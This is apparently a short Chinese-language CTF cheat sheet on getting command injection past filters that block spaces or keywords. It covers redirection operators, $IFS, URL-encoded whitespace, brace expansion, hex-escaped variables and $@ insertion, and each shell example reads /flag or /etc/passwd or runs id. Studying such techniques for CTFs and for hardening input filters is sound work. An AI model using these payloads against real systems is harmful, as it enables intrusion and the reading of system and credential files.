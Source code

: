 1. 使用`<`或者`<>`

   ```bash
   $ cat</flag
   flag{xxx}
   
   $ cat<>/flag
   flag{xxx}
   ```

2. 使用`IFS`或者

   ```bash
   $ cat$IFS$9/flag
   flag{xxx}
   
   $ cat${IFS}/flag
   flag{xxx}
   
   $ cat$IFS/flag
   flag{xxx}
   ```

3. 在`url`的编码绕过

   这里我`fuzz`了一下，`Linux bash`可以使用`%20(space)`、`%09(tab)`、`%3c(<)`以及`+`来绕过

   ![](https://ws1.sinaimg.cn/large/64ef14dcgy1fylfbbt1n2j21yy1964ki.jpg)

4. 花括号拓展`{OS_COMMAND,ARGUMENT}`

   在`Linux bash`中还可以使用`{cat,/etc/passwd}`来绕过

   ![](https://ws1.sinaimg.cn/large/64ef14dcgy1fylhtmzibwj210w0lynmy.jpg)

5. 变量控制

   ```bash
   $ X=$'cat\x20/flag'&&$X
   flag{xxx}
   
   $ X=$'cat\x09/flag'&&$X
   flag{xxx}
   
   #这里\x3c不可以
   ```

6. 采用`$@`绕过

   ```bash
   $ c$@at /fl$@ag
   flag{xxx}
   
   $ echo i$@d
   id
   
   $ echo i$@d|$0
   uid=0(root) gid=0(root) groups=0(root)
   ```
